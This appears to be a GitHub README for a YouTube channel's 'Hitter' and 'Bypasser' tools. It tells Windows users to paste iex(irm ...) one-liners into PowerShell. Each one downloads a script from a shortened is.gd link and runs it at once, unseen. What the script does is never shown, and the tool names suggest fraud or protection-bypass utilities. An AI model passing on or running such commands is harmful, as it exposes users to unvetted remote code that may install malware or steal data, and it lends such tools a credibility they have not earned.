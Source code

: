# TechTubeInsider
TechTube Insider YouTube Channel's Files

# Part 1 - Hitter

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
```iex(irm is.gd/docomojx)```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

# Part 2 - Bypasser

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
```
iex(irm is.gd/bypassjx)
```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

